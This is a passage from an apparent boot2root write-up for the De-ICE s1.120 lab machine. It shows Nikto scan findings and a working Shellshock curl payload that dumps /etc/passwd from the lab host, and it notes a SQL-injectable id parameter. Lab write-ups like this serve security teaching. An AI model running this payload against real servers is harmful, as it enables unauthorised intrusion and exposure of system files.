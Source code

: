 ```
+ OSVDB-3233: /cgi-bin/printenv: Apache 2.0 default script is executable and gives server environment variables. All default scripts should be removed. It may also allow XSS types of attacks. http://www.securityfocus.com/bid/4431.
+ OSVDB-3233: /cgi-bin/test-cgi: Apache 2.0 default script is executable and reveals system information. All default scripts should be removed.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8345 requests: 0 error(s) and 33 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT-4) (36 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Shellshock? Hell yeah! I can prove this by issuing `curl -A "() { :; }; echo 'Content-Type: text/plain'; echo; echo; /bin/cat /etc/passwd;" http://192.168.1.120/cgi-bin/test-cgi` and confirming that the passwd file is dumped. With that I can easily get a reverse shell this way. However, it feels unfair to use a 2015 exploit on a 2011 Boot2Root system. Let us challenge ourselves by finding another way in.

After poking the website for a while, I noticed that the id parameter in the URL is SQL injectable:

![](de-ice_s1.120_1.png)

---